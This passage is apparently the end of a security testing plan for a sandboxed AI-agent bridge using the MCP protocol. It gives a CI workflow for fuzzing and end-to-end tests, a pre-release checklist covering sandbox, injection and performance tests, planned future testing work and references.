      - name: Run fuzzing (short)
        run: bash tests/security/fuzz_mcp_protocol.sh
        timeout-minutes: 5
  
  e2e-tests:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v3
      
      - name: Set up Python
        uses: actions/setup-python@v4
        with:
          python-version: '3.11'
      
      - name: Install dependencies
        run: pip install pytest requests
      
      - name: Run E2E tests
        run: pytest tests/e2e/
```

---

## 7. Test Checklist

### Before Release

- [ ] **Unit Tests**
  - [ ] All components have 90%+ code coverage
  - [ ] All injection attacks blocked
  - [ ] All valid inputs accepted
  
- [ ] **Integration Tests**
  - [ ] Linux sandbox (bubblewrap) tests pass
  - [ ] macOS sandbox (Seatbelt) tests pass
  - [ ] Bridge-agent communication works
  - [ ] Bridge has host access, agent does not
  
- [ ] **Security Tests**
  - [ ] All penetration tests pass
  - [ ] Fuzzing runs 24+ hours without crashes
  - [ ] No symlink escapes possible
  - [ ] No command injection possible
  
- [ ] **E2E Tests**
  - [ ] Deployment workflow works
  - [ ] Invalid operations blocked
  - [ ] Error messages are clear
  
- [ ] **Performance Tests**
  - [ ] Validation latency < 1ms
  - [ ] MCP handler latency < 10ms
  - [ ] Throughput > 100 req/sec
  
- [ ] **Chaos Tests**
  - [ ] Bridge crash recovery works
  - [ ] Network partition handling works
  - [ ] Config corruption detected
  
- [ ] **Documentation**
  - [ ] Security warnings included
  - [ ] Known limitations documented
  - [ ] Example configurations provided

---

## 8. Future Testing Enhancements

### 8.1 Automated Security Scanning
- Integrate with Dependabot for dependency vulnerabilities
- Add SAST (Static Application Security Testing) with Semgrep
- Add DAST (Dynamic Application Security Testing)

### 8.2 Continuous Fuzzing
- Set up OSS-Fuzz integration
- Run fuzzing continuously on every commit
- Track fuzzing coverage metrics

### 8.3 Real-World Attack Simulations
- Simulate actual prompt injection attacks
- Test with adversarial AI models
- Red team exercises

### 8.4 Cross-Platform Testing
- Test on different Linux distributions
- Test on different macOS versions
- Investigate Windows sandbox options (AppContainer?)

---

## References

- [Bubblewrap Documentation](https://github.com/containers/bubblewrap)
- [macOS Sandbox Guide](https://reverse.put.as/wp-content/uploads/2011/09/Apple-Sandbox-Guide-v1.0.pdf)
- [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [Google OSS-Fuzz](https://github.com/google/oss-fuzz)
- [Hypothesis Property-Based Testing](https://hypothesis.readthedocs.io/)
- [MCP Specification](https://spec.modelcontextprotocol.io/)

---

**Next Steps:**
1. Implement basic unit test suite for parser and validator
2. Set up Docker-based test environment with bubblewrap
3. Create first E2E deployment test
4. Run initial penetration tests
